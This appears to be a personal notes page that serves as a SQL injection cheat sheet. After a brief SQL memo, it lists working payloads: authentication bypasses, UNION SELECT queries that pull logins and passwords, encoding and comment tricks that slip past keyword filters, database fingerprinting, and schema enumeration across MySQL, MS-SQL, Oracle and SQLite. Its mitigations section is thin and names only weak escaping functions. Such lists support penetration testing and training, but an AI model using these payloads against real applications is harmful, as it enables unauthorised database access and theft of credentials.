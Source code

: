 ```yaml
---
layout: page
title:  "SQL injections"
permalink: "sql-injections.html"
tags: [security, injections, web]
summary: ""
---
```

## SQL memo
### Data types
* **INT**: signed integer on 4 bytes
* **DATE** and **TIME**: self-explanatory. Moron.
* **VARCHAR**: strings
* **BLOB** and **TEXT**: binary object of big size
* **ENUM** and **SET**: string in a list

### Commands
{% highlight sql %}
SHOW databases;
CREATE database database_name;
USE database_name;
CREATE TABLE users (id INT NOT NULL, login VARCHAR(20), password VARCHAR(40));
DESC users; # Display the structure of the table
INSERT INTO table_name VALUES(123, 'test_user', 'test_pass'); # Clear-text password
INSERT INTO table_name VALUES(1234, 'sec_user', password('test_pass'));
ALTER TABLE users MODIFY password VARCHAR(41);
UPDATE users SET password=password('better_pass_123') WHERE login='test_user';
SELECT * FROM users WHERE login='test_user' AND password=password(better_pass_123');
DROP TABLE users;
{% endhighlight %}



## Simple injections
* `'`, `''` (SQL-escaped single quote)
* `test' OR 1=1 --`
* `UNION SELECT login, password FROM users #`
* Select the line using **LIMIT**: `UNION SELECT login, password FROM users LIMIT 1,1 #`
* Balancing the quotes: `test' OR 'a' ='a`
* Wildxard character: `%``
* Numerics: `3-1`, `67-ASCII('A')`, `51-ASCII(1)` (implicit numeric to string cast)
* Test if injection in **SELECT**: input `1` results in `SELECT 1,..` so first column is filled with 1s
* Return number of lines: `aa' UNION SELECT count(*), users.password FROM users; --`
* `' UNION SELECT users.password, users.password FROM users LIMIT 1 OFFSET 1; --`


## Mitigations
* PHP `htmlentities()`
* PHP `addslashes()`. Can be bypassed if another encoding is used.



## Strategies
* Get the version string of the database
* Use string concatenation techniques to produce legitimate input
* MySQL ~ Sybase
* Blind injection: insert data into a user field, such as a profile name
* Blind injection: best to look for interesting columns names rather than tables (use `LIKE '%pass%'` for password-related columns)
* Second order injections



## Tactics
* URL-encode HTTP-related characters
* Oracle globally accessible table: `DUAL`. Useful to complete **SELECT** statements
* Return strings through numeric columns: `ASCII` and `SUBSTRING` functions to return one character at a time

### SELECT filtering bypasses
```
SeLeCt
%00SELECT
SESELECTLECT
%53%45%4C%45%43%54
%2553%2545%254C%2545%2543%2554
SE/*MySQL only*/LECT
```

### Comments as spaces
* `SELECT/*foo*/password/*bar*/FROM/*foobar*/users`
* MySQL: comments inside keywords `SE/*damn!*/LECT/*foo*/password/*bar*/FROM/*foobar*/users`

### Database fingerprinting
* Oracle: `BITAND(1,1)-BITAND(1,1)`
* MS-SQL: `@@PACKED_RECEIVED-@@PACKED_RECEIVED`
* MySQL: `CONNECTION_ID()-CONNECTION_ID()`
* MySQL version fingerprinting: inline comment `/*!32302 and 1=0*/` ignored if database version doesn't match `32302` version string. Else, interpreted as `and 1=0`
* Comments:
  * MS-SQL, MySQL (with a space after double hyphens), Oracle: `--`
  * `#`
  * `;`
* MS-SQL and MySQL version string: `' UNION SELECT @@version, NULL-- `
* Oracle version string: `' UNION SELECT banner, NULL, NULL FROM v$version--`


### String
* Concatenation useful to return multiple results when only one **VARCHAR** columns found
* Oracle concatenation: `'||'test`
* MS-SQL concatenation: `'+'test`
* MySQL concatenation: `' 'test` (mind the space)
* Build Oracle string: `CHR(97)||CHR(98)='ab'`
* Build MS-SQL string: `CHAR(97)+CHAR(98)='ab'`


### Blind injections
* Table structure with MS-SQL, MySQL, SQLite and Postgresql: `' UNION SELECT table_name,column_name FROM information_schema.columns--`
* Table structure with MS-SQL: `SELECT table_name+':'+column_name FROM information_schema.columns--`
* Table structure with MySQL: `SELECT CONCAT(table_name, ':', column_name) FROM information_schema.columns--`
* Table structure with SQLite: `' UNION SELECT name, sql FROM sqlite_master;`
* Table structure with Oracle:
  * `' UNION SELECT table_name,column_name FROM all_tab_columns;`
  * `' UNION SELECT table_name,column_name FROM user_tab_columns;`
  * `SELECT table_name||':'||column_name FROM all_tab_columns;`
* Number of columns:
  * `ORDER BY 1`, `ORDER BY 2` ...
  * `UNION SELECT NULL--`, `UNION SELECT NULL, NULL--` ... Should be checked by reviewing raw response. Add `FROM DUAL` if Oracle.
* Discovering string columns: `SELECT 'a', NULL, NULL`, `SELECT NULL, 'a', NULL`, `SELECT NULL, NULL, 'a'`
* Name of columns: `ORDER BY "column_name"`
* Length of a string: TODO
* Number of values for **INSERT** statements: iteratively add fields
  ```
  test')--
  test', 1)-- Implicitly casted to a string in most DBMS
  test', 1, 2000)--  Implicitly casted to a date in most DBMS
  ...
  ```
* **SELECT** statement with unknown column type: `SELECT NULL, password`

